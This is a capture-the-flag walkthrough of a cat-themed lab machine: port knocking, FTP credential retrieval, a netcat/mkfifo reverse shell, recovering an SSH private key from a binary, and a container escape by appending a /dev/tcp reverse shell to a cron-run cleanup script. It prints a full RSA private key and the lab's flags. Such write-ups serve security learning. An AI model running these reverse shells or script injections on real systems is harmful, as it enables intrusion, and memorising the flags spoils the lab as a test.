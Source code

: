 ```yaml
---
sticker: emoji//1f63a
---
```


# PORT SCAN
---


| PORT | SERVICE     |
| :--- | :---------- |
| 21   | FTP         |
| 22   | SSH         |
| 4420 | NVM-EXPRESS |
| 8080 | HTTP        |




# RECONNAISSANCE
---

If we try interacting with the `4420` port, we need a password, for it, we can go to `ftp` and check this, on there, we will get:

```
sardinethecat
```

![](images/Pasted%20image%2020250612135655.png)
But, before all of this, we need to go to the website in which we will find this:

![](images/Pasted%20image%2020250612142859.png)

The FTP port will appear as filter if we don't do `port knocking`, Port knocking is a security technique that involves a client making a series of connection attempts to specific closed ports on a server before a legitimate connection can be established, we need to do port knocking on the specified ports:

```
knock IP 1111, 2222, 3333, 4444
```

Once we knock, the ftp port will be open and we can access to get the password.

Let's begin exploitation.

# EXPLOITATION
---

We got `rce`, let's send ourselves a reverse shell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4444 >/tmp/f
```


![](images/Pasted%20image%2020250612135810.png)



We have a `runme` binary on `/home/catlover`:

```
# ls -la /home
total 12
drwxr-xr-x  3    0    0 4096 Apr  2  2021 .
drwxr-xr-x 10 1001 1001 4096 Apr  3  2021 ..
drwxr-xr-x  2    0    0 4096 Apr  3  2021 catlover
# ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
# ./home/catlover/runme
Please enter yout password: sardinethecat
Access Denied
```

It prompts for a password, which we don't have, we cannot get the binary on our home due to the shell being a little rusty, but, when we use cat we can see this little line: 


```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```

The password is:

```
rebecca
```

This binary generates a `id_rsa` for `catlover`  once the password is correct, we know this by analyzing the binary using `cat`:

```
cat /home/catlover/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAmI1dCzfMF4y+TG3QcyaN3B7pLVMzPqQ1fSQ2J9jKzYxWArW5
IWnCNvY8gOZdOSWgDODCj8mOssL7SIIgkOuD1OzM0cMBSCCwYlaN9F8zmz6UJX+k
jSmQqh7eqtXuAvOkadRoFlyog2kZ1Gb72zebR75UCBzCKv1zODRx2zLgFyGu0k2u
xCa4zmBdm80X0gKbk5MTgM4/l8U3DFZgSg45v+2uM3aoqbhSNu/nXRNFyR/Wb10H
tzeTEJeqIrjbAwcOZzPhISo6fuUVNH0pLQOf/9B1ojI3/jhJ+zE6MB0m77iE07cr
lT5PuxlcjbItlEF9tjqudycnFRlGAKG6uU8/8wIDAQABAoIBAH1NyDo5p6tEUN8o
aErdRTKkNTWknHf8m27h+pW6TcKOXeu15o3ad8t7cHEUR0h0bkWFrGo8zbhpzcte
D2/Z85xGsWouufPL3fW4ULuEIziGK1utv7SvioMh/hXmyKymActny+NqUoQ2JSBB
QuhqgWJppE5RiO+U5ToqYccBv+1e2bO9P+agWe+3hpjWtiAUHEdorlJK9D+zpw8s
/+9CjpDzjXA45X2ikZ1AhWNLhPBnH3CpIgug8WIxY9fMbmU8BInA8M4LUvQq5A63
zvWWtuh5bTkj622QQc0Eq1bJ0bfUkQRD33sqRVUUBE9r+YvKxHAOrhkZHsvwWhK/
oylx3WECgYEAyFR+lUqnQs9BwrpS/A0SjbTToOPiCICzdjW9XPOxKy/+8Pvn7gLv
00j5NVv6c0zmHJRCG+wELOVSfRYv7z88V+mJ302Bhf6uuPd9Xu96d8Kr3+iMGoqp
tK7/3m4FjoiNCpZbQw9VHcZvkq1ET6qdzU+1I894YLVu258KeCVUqIMCgYEAwvHy
QTo6VdMOdoINzdcCCcrFCDcswYXxQ5SpI4qMpHniizoa3oQRHO5miPlAKNytw5PQ
zSKoIW47AObP2twzVAH7d+PWRzqAGZXW8gsF6Ls48LxSJGzz8V191PjbcGQO7Oro
Em8pQ+qCISxv3A8fKvG5E9xOspD0/3lsM/zGD9ECgYBOTgDAuFKS4dKRnCUt0qpK
68DBJfJHYo9DiJQBTlwVRoh/h+fLeChoTSDkQ5StFwTnbOg+Y83qAqVwsYiBGxWq
Q2YZ/ADB8KA5OrwtrKwRPe3S8uI4ybS2JKVtO1I+uY9v8P+xQcACiHs6OTH3dfiC
tUJXwhQKsUCo5gzAk874owKBgC/xvTjZjztIWwg+WBLFzFSIMAkjOLinrnyGdUqu
aoSRDWxcb/tF08efwkvxsRvbmki9c97fpSYDrDM+kOQsv9rrWeNUf4CpHJQuS9zf
ZSal1Q0v46vdt+kmqynTwnRTx2/xHf5apHV1mWd7PE+M0IeJR5Fg32H/UKH8ROZM
RpHhAoGAehljGmhge+i0EPtcok8zJe+qpcV2SkLRi7kJZ2LaR97QAmCCsH5SndzR
tDjVbkh5BX0cYtxDnfAF3ErDU15jP8+27pEO5xQNYExxf1y7kxB6Mh9JYJlq0aDt
O4fvFElowV6MXVEMY/04fdnSWavh0D+IkyGRcY5myFHyhWvmFcQ=
-----END RSA PRIVATE KEY-----
```

We got our private key and can now connect to ssh:

![](images/Pasted%20image%2020250612141930.png)
# PRIVILEGE ESCALATION
---

We are root but the root flag is nowhere to be found, this is because we are inside of a `Docker container`, we can know this with linpeas and `ls -la /`:

```
root@7546fa2336d6:/opt/clean# ls -la /
total 112
drwxr-xr-x   1 root root 4096 Jun 12 19:22 .
drwxr-xr-x   1 root root 4096 Jun 12 19:22 ..
-rw-------   1 root root  596 Jun 12 19:18 .bash_history
-rwxr-xr-x   1 root root    0 Mar 25  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Apr  9  2021 bin
drwxr-xr-x   3 root root 4096 Mar 24  2021 bitnami
drwxr-xr-x   2 root root 4096 Jan 30  2021 boot
-rw-r--r--   1 root root   62 Jun 12 19:22 clean.sh
drwxr-xr-x   5 root root  340 Jun 12 19:09 dev
drwxr-xr-x   1 root root 4096 Apr  9  2021 etc
drwxr-xr-x   2 root root 4096 Jan 30  2021 home
drwxr-xr-x   1 root root 4096 Sep 25  2017 lib
drwxr-xr-x   2 root root 4096 Feb 18  2021 lib64
drwxr-xr-x   2 root root 4096 Feb 18  2021 media
drwxr-xr-x   2 root root 4096 Feb 18  2021 mnt
drwxrwxr-x   1 root root 4096 Mar 25  2021 opt
drwxrwxr-x   2 root root 4096 Mar 24  2021 post-init.d
-rwxrwxr-x   1 root root  796 Mar 24  2021 post-init.sh
dr-xr-xr-x 131 root root    0 Jun 12 19:09 proc
drwx------   1 root root 4096 Mar 25  2021 root
drwxr-xr-x   4 root root 4096 Feb 18  2021 run
drwxr-xr-x   1 root root 4096 Apr  9  2021 sbin
drwxr-xr-x   2 root root 4096 Feb 18  2021 srv
dr-xr-xr-x  13 root root    0 Jun 12 19:23 sys
drwxrwxrwt   1 root root 4096 Jun 12 19:27 tmp
drwxrwxr-x   1 root root 4096 Mar 24  2021 usr
drwxr-xr-x   1 root root 4096 Feb 18  2021 var
```

As seen, `.dockerenv` is on here, we need a way to get into root
If we check the `/opt` directory we can find a `clean.sh` script that does this:

```
root@7546fa2336d6:/# cat /opt/clean/clean.sh
#!/bin/bash

rm -rf /tmp/*
```

We have write permissions so we can simply modify it to a reverse shell:

```
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/IP/1111 0>&1'" >> /opt/clean/clean.sh
```

This script runs each a couple minutes so wait and have the listener ready, we know this by taking a look at the `.bash_history` file:

```
root@7546fa2336d6:/opt/clean# cat /.bash_history
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh
nano /opt/clean/clean.sh
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh
cat /opt/clean/clean.sh
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
cat /var/log/dpkg.log
nano /opt/clean/clean.sh
nano /opt/clean/clean.sh
exit
exit
exit
ls
exit
```


Once the script runs again, we get a shell as root but in the real machine:

![](images/Pasted%20image%2020250612143517.png)

We can now get both flags:

```
root@7546fa2336d6:/opt/clean# cat /root/flag.txt
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9

root@cat-pictures:~# cat /root/root.txt
Congrats!!!
Here is your flag:

4a98e43d78bab283938a06f38d2ca3a3c53f0476
```

![](images/Pasted%20image%2020250612143705.png)

